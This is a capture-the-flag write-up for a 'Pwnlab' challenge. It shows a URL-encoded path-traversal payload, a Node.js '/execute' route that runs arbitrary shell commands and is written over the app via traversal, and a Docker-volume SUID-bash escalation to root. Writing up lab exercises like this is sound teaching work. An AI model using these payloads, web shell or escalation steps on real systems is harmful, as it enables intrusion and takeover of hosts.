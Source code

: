```yaml
---
title: "4T$ CTF 2024 - Homelab ? More like Pwnlab !"
date: "2024-11-10"
tags:
  - writeups
  - ctf
  - docker
  - privilege escalation
  - lfi
toc: true
math: true
bold: true
nomenu: false
---
```


We would start with 2 things:

- Web SSH Access (through the browser)
- Application with simple upload/download functionality

I found that the application does not enforce the paths for uploading and downloading and you can upload/download whatever file you want, you just have to URL encode it like so:

```
..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

I've also realized that this application is running in a Docker container, by going through the web SSH, I can see the docker compose file in `/home/admin/docker-compose.yml`.

In the source code of the application I had an odd route called `/restart` this would restart the application, meaning that something is running and it is making sure that this application keeps running even if I exit the process (that's what the `/restart` does). This likely hints that I need to change the application to gain RCE. So I've created another route called `/execute` and I've attached it to the `app.js` which looks like this:

```js
app.get('/execute', (req, res) => {
  const command = req.query.cmd; // Get the command from the query string

  if (!command) {
    return res.send(`
      <p>Please provide a command using the <code>?cmd=</code> query string.</p>
      <p>Example: <code>/execute?cmd=ls</code></p>
    `);
  }

  exec(command, (error, stdout, stderr) => {
    if (error) {
      return res.send(`
        <p><strong>Error:</strong></p>
        <pre>${error.message}</pre>
        <p>Command: <code>${command}</code></p>
      `);
    }

    if (stderr) {
      return res.send(`
        <p><strong>Stderr:</strong></p>
        <pre>${stderr}</pre>
        <p>Command: <code>${command}</code></p>
      `);
    }

    res.send(`
      <p><strong>Output:</strong></p>
      <pre>${stdout}</pre>
      <p>Command: <code>${command}</code></p>
    `);
  });
});
```

Then I've URL encoded it with CyberChief, and uploaded the file to this path: `..%2F..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fcwd%2Fapp.js`, then I restarted the application using the `/restart` route.

After that the route should be available to us, and I can execute arbitrary commands like: `/execute?cmd=ls`

```
Dockerfile
app.js
entrypoint.sh
node_modules
package-lock.json
package.json
public
views
```

Now earlier  docker-compose file (`/home/admin/docker-compose.yml`) which looks like this:

```yaml
services:
	webapp:
		image: webapp
		ports:
			"8080:5555"
		volumes:
			/home/user/nas_storage:/app/public/uploads
```

I can see that the container's path `/app/public/uploads` is mapped to `/home/user/nas_storage` path on the main server which I got web SSH access to, now here are the steps of how to privilege escalate to root:

- On the web SSH, copy the bash binary to the `/home/user/nas_storage/`
- On the docker container, make the bash binary owned by root and set SUID (u+s).
- On the web SSH invoke the bash binary with `-p`

And you should be root. Now you can read the flag located in `/home/admin/flag`

```
4T${pWnD_7h3_pwNl48??!}
```